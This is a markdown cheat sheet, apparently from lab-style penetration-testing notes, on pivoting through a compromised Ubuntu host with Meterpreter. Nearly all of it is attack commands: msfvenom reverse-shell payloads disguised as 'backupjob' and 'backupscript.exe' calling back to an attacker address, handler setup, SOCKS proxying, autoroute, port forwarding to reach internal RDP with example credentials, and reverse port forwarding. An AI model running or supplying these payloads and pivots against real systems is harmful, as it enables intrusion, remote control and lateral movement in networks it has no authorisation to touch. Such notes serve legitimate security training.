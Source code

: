 ```yaml
---
legal-banner: true
---
```


### **Meterpreter Tunneling & Port Forwarding**

This section covers the essential commands and steps for setting up Meterpreter port forwarding.  
It assumes you already have a Meterpreter shell on an Ubuntu server (pivot host) and want to perform enumeration scans through this host.  

### **Creating Payload for Ubuntu Pivot Host**

1. Generate payload:  
   ```bash
   msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=8080 -f elf -o backupjob
   ```

2. Start multi/handler:  
   ```bash
   msf6 > use exploit/multi/handler
   msf6 exploit(multi/handler) > set LHOST 0.0.0.0
   msf6 exploit(multi/handler) > set LPORT 8080
   msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > run
   ```

3. Copy and execute payload on pivot host:  
   ```bash
   chmod `x backupjob && ./backupjob
   ```

4. Verify Meterpreter session:  
   ```bash
   meterpreter > pwd
   ```

### **Configuring MSF SOCKS Proxy**

1. Start SOCKS proxy:  
   ```bash
   msf6 > use auxiliary/server/socks_proxy
   msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
   msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
   msf6 auxiliary(server/socks_proxy) > set VERSION 4a
   msf6 auxiliary(server/socks_proxy) > run
   ```

2. Add entry to proxychains.conf:  
   ```bash
   socks4 127.0.0.1 9050
   ```

3. Create routes with AutoRoute:  
   ```bash
   msf6 > use post/multi/manage/autoroute
   msf6 post(multi/manage/autoroute) > set SESSION 1
   msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
   msf6 post(multi/manage/autoroute) > run
   ```

### **Testing Proxy & Routing Functionality**

1. Run an Nmap scan:  
   ```bash
   proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
   ```

2. Set up local port forwarding:  
   ```bash
   meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
   ```

3. Connect to the target:  
   ```bash
   xfreerdp /v:localhost:3300 /u:victor /p:pass@123
   ```

4. View active connections with netstat:  
   ```bash
   netstat -antp
   ```

### **Reverse Port Forwarding**

1. Add a reverse port forward:  
   ```bash
   meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
   ```

2. Start multi/handler:  
   ```bash
   msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set LPORT 8081
   msf6 exploit(multi/handler) > set LHOST 0.0.0.0
   msf6 exploit(multi/handler) > run
   ```

3. Generate Windows payload:  
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 LPORT=1234 -f exe -o backupscript.exe
   ```

4. Establish a Meterpreter session:  
   ```bash
   meterpreter > shell
   ```